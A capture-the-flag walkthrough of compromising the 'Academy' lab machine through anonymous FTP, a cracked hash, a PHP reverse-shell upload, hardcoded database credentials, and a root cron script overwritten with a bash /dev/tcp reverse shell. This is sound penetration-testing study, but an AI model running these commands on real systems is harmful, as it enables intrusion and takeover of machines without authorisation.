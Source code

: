 # Academy machine writeup

Starting with nmap scan we have three ports open 21 22 80 for ftp ssh http
![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/76c63fa9-0903-4491-b0b6-0b3967847799)

let's enumerate ftp. Let's see if it provides anonymous login
![ftp](https://github.com/moataz-bellah/writeups/assets/47069499/8d375b8c-4015-4b4e-8807-f9d375e91ea0)

Great it does provide anonymous login. We have an interesting file "note.txt". Check that file
![note](https://github.com/moataz-bellah/writeups/assets/47069499/9cd0569b-37eb-432e-b655-0ac8f41ad4d2)

It has inssert query, ok we have good findings like user_id and password hash. Crack the hash using online website like LINK.  
Yes we cracked the hash and it is "student", but how we can use that credential. Let's do some directory busting using ffuf. Why ffuf, because ffuf doesn't search inside any directory.
```
ffuf -u http://192.168.0.105/FUZZ  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
[Status: 301, Size: 316, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: academy

[Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 2ms]
    * FUZZ: phpmyadmin

```
We found two paths /academy and /phpmyadmin. Let's try the credential we found in phpmyadmin, but it didn't work and it seems to be not vulnerable to sql injection, let's go to /academy. 
![dashboard](https://github.com/moataz-bellah/writeups/assets/47069499/6a8fda7f-287b-4de8-ae98-c516ae16f97b)

Great we are in, ok we are looking for a way to get a shell, there is file upload we can check it if it is vulnerable to RFI.
![upload](https://github.com/moataz-bellah/writeups/assets/47069499/df76ce66-4371-4833-aa28-ce93c7b111b9)

As we saw it is a php app we can use php reverse shell. Before we upload the shell we need to set netcat to listen to any incoming connections.
```
sudo nc -nvlp 1234
```
Upload the file
![netcat](https://github.com/moataz-bellah/writeups/assets/47069499/59faf962-7311-4dfb-a177-3da285d1e0a8)

Boom we have access, go to home
```
$ cd /home
$ ls
grimmie
```
we have grimmie user
```
cd grimmie
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
```
we have interesting file "backup.sh" but we can't execute it since we are www-data, we need to be grimmie, leave it now and continue exploring the server. Let's explore the website code files looking for any hardcoded credentials.
```
$ cd /var/www/html/academy
admin                   enroll-history.php  my-profile.php
assets                  enroll.php          pincode-verification.php
change-password.php     includes            print.php
check_availability.php  index.php           studentphoto
db                      logout.php
```
Inside admin/includes, there is a hardcoded credentials for mysql database
```
$ cd admin
$ cat config.php
<?php
$mysql_hostname = "localhost";
$mysql_user = "grimmie";
$mysql_password = "My_V3ryS3cur3_P4ss";
$mysql_database = "onlinecourse";
$bd = mysqli_connect($mysql_hostname, $mysql_user, $mysql_password, $mysql_database) or die("Could not connect database");
?>
```
Great we have username "grimmie" and password "My_V3ryS3cur3_P4ss", let's try to switch to grimmie
```
$ su grimmie
su grimmie
Password: My_V3ryS3cur3_P4ss

grimmie@academy:/var/www/html/academy/admin/includes$ whoami
grimmie
grimmie@academy:/var/www/html/academy/admin/includes$
```
# Privilege Escalation
Ok, get back to backup.sh, it seems that file executes each period of time, we need to make sure of that. Let's edit backup.sh and make it create a file
```
$ echo -e '#!/bin/bash \ntouch test' > backup.sh
```
We wait for a moment and see if something changes.
```
$ ls -la
total 36
drwxr-xr-x 3 grimmie administrator 4096 Jan 25 15:26 .
drwxr-xr-x 3 root    root          4096 May 30  2021 ..
-rw------- 1 grimmie administrator    1 Jun 16  2021 .bash_history
-rw-r--r-- 1 grimmie administrator  220 May 29  2021 .bash_logout
-rw-r--r-- 1 grimmie administrator 3526 May 29  2021 .bashrc
drwxr-xr-x 3 grimmie administrator 4096 May 30  2021 .local
-rw-r--r-- 1 grimmie administrator  807 May 29  2021 .profile
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 backup.sh
-rwxr-xr-- 1 grimmie administrator   57 Jan 25 15:26 test
```
Great it worked, we can use that and get shell and get root privilege
```
$ echo -e '#!/bin/bash \nbash -i >& /dev/tcp/192.168.0.104/4444 0>&1' > backup.sh
```
Let's set netcat to listen on port 4444 and wait for any connection
```
sudo nc -nvlp 4444
```
![root_shell](https://github.com/moataz-bellah/writeups/assets/47069499/fa475814-fe12-4614-aa8a-0afe54bcf2e4)
Yeah we are root now.
